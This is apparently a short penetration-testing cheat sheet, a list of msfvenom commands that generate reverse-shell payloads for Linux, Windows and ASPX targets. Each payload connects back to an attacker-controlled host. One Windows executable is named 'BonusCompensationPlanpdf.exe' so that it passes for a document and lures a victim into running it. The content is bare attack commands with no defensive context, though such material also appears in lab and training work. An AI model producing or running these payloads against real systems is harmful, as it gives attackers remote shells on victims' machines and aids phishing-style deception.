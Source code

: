 ```bash
msfvenom -l payloads
```
#### Linux
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$ip LPORT=443 -f elf > shell
```
#### Windows
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f exe > BonusCompensationPlanpdf.exe
```

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx
```